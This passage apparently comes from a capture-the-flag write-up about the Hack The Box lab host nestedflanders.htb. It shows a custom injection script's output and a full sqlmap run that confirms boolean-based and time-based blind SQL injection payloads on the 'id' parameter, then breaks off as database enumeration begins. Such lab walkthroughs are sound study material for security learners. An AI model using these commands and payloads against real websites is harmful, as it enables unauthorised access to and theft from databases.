 



    root@kali# ./sqli.py
    10.1.37-mariadb-0+deb9u1



#### sqlmap

Scripting this is nice, but I can use `sqlmap` to find this and exploit
it more quickly (though not that much more quickly):



    root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.3.4#stable}
    |_ -| . ["]     | .'| . |
    |___|_  [)]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting @ 08:20:35 /2019-06-22/

    [08:20:35] [INFO] resuming back-end DBMS 'mysql' 
    [08:20:35] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: id=587' AND 4662=4662-- bcKm

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: id=587' AND SLEEP(5)-- BHIV
    ---
    [08:20:35] [INFO] the back-end DBMS is MySQL
    web application technology: Nginx 1.10.3
    back-end DBMS: MySQL 5 (MariaDB fork)
    [08:20:35] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.nestedflanders.htb'

    [*] ending @ 08:20:35 /2019-06-22/



#### Enumerate DB

The thing about blind SQLI is that they are slow. I don't want to just
do `--dump` or `--dump-all`, as it will take forever. I will start with
some basic enumeration. List the databases:
